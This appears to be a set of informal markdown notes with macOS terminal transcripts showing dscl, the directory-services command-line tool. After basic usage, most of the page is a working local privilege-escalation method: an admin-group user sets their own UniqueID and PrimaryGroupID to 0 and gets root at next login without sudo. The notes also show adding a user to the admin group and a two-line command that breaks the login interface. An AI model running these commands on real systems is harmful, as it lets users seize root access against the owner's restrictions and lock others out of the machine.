 interactive shell info

q + "enter" = quit
ctrl + c = quit
ctrl + d = quit
`Yays-Mac:~ yayusernameyay$ dscl
Entering interactive mode... (type "help" for commands)
 > q
Goodbye
Yays-Mac:~ yayusernameyay$ ps ax | grep dscl
  947 s000  S+     0:00.01 grep dscl`

ls = list
`Yays-Mac:~ yayusernameyay$ dscl
Entering interactive mode... (type "help" for commands)
 > ls
Local

Contact
Search`


run dscl while authentiated as a user

`Yays-Mac:~ yayusernameyay$ dscl . read /users/yayusernameyay PrimaryGroupID
PrimaryGroupID: 20
Yays-Mac:~ yayusernameyay$ dscl . read /users/yayusernameyay UniqueID
UniqueID: 501
Yays-Mac:~ yayusernameyay$ dscl -u yayusernameyay -P yaypasswordyay . change /users/yayusernameyay PrimaryGroupID 20 0
Yays-Mac:~ yayusernameyay$ dscl -u yayusernameyay -P yaypasswordyay . change /users/yayusernameyay UniqueID 501 0
Yays-Mac:~ yayusernameyay$ dscl . read /users/yayusernameyay PrimaryGroupID
PrimaryGroupID: 0
Yays-Mac:~ yayusernameyay$ dscl . read /users/yayusernameyay UniqueID
UniqueID: 0`

or

`Yays-Mac:~ yayusernameyay$ dscl
Entering interactive mode... (type "help" for commands)
 > cd /Local/Default/Users/yayusernameyay/
/Local/Default/Users/yayusernameyay > read . PrimaryGroupID
PrimaryGroupID: 20
/Local/Default/Users/yayusernameyay > change . PrimaryGroupID 20 0
<main> attribute status: eDSPermissionError
<dscl_cmd> DS Error: -14120 (eDSPermissionError)
/Local/Default/Users/yayusernameyay > auth yayusernameyay yaypasswordyay
/Local/Default/Users/yayusernameyay > change . PrimaryGroupID 20 0
/Local/Default/Users/yayusernameyay > read . PrimaryGroupID
PrimaryGroupID: 0`


there are some keys that you need to be a part of groupID 80 to change:
`Yays-Mac:~ boousernameboo$ dscl . read /groups/admin
dsAttrTypeNative:record_daemon_version: 4890000
AppleMetaNodeLocation: /Local/Default
GeneratedUID: ABCDEFAB-CDEF-ABCD-EFAB-CDEF00000050
GroupMembers: FFFFEEEE-DDDD-CCCC-BBBB-AAAA00000000 3213A73F-B77D-4C5F-A589-514EB904749C
GroupMembership: root yayusernameyay
Password: *
PrimaryGroupID: 80
RealName: Administrators
RecordName: admin BUILTIN\Administrators
RecordType: dsRecTypeStandard:Groups
SMBSID: S-1-5-32-544
Yays-Mac:~ boousernameboo$ dscl -u boousernameboo -P boopasswordboo . change /users/boousernameboo PrimaryGroupID 20 100
<main> attribute status: eDSPermissionError
<dscl_cmd> DS Error: -14120 (eDSPermissionError)
Yays-Mac:~ boousernameboo$ dscl -u yayusernameyay -P yaypasswordyay . append /groups/admin GroupMembership boousernameboo
Yays-Mac:~ boousernameboo$ dscl -u boousernameboo -P boopasswordboo . change /users/boousernameboo PrimaryGroupID 20 100
Yays-Mac:~ boousernameboo$ dscl . read /groups/admin
dsAttrTypeNative:record_daemon_version: 4890000
AppleMetaNodeLocation: /Local/Default
GeneratedUID: ABCDEFAB-CDEF-ABCD-EFAB-CDEF00000050
GroupMembers: FFFFEEEE-DDDD-CCCC-BBBB-AAAA00000000 3213A73F-B77D-4C5F-A589-514EB904749C
GroupMembership: root yayusernameyay boousernameboo
Password: *
PrimaryGroupID: 80
RealName: Administrators
RecordName: admin BUILTIN\Administrators
RecordType: dsRecTypeStandard:Groups
SMBSID: S-1-5-32-544
Yays-Mac:~ boousernameboo$ dscl -u boousernameboo -P boopasswordboo . read /users/boousernameboo PrimaryGroupID
PrimaryGroupID: 100`

as long as you are a part of groupID 80, you can privesc to root without sudo:
`Yays-Mac:~ boousernameboo$ id
uid=502(boousernameboo) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),702(com.apple.sharepoint.group.2),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
Yays-Mac:~ boousernameboo$ sudo bash
Password:
boousernameboo is not in the sudoers file.  This incident will be reported.
Yays-Mac:~ boousernameboo$ dscl . read /users/boousernameboo UniqueID
UniqueID: 502
Yays-Mac:~ boousernameboo$ dscl . read /users/boousernameboo PrimaryGroupID
PrimaryGroupID: 20
Yays-Mac:~ boousernameboo$ dscl -u boousernameboo -P boopasswordboo . change /users/boousernameboo PrimaryGroupID 20 0
Yays-Mac:~ boousernameboo$ dscl -u boousernameboo -P boopasswordboo . change /users/boousernameboo UniqueID 502 0
Yays-Mac:~ boousernameboo$ dscl . read /users/boousernameboo UniqueID
UniqueID: 0
Yays-Mac:~ boousernameboo$ dscl . read /users/boousernameboo PrimaryGroupID
PrimaryGroupID: 0`
after the above, logout then login and you'll login as root.

semi brick the macos system? at least the user interface freaks out and doesn't allow logins. can be done as a low level users. services like ssh will still work:
`dscl . delete /Users/boousernameboo JPEGPhoto
dscl . append /Users/boousernameboo JPEGPhoto test`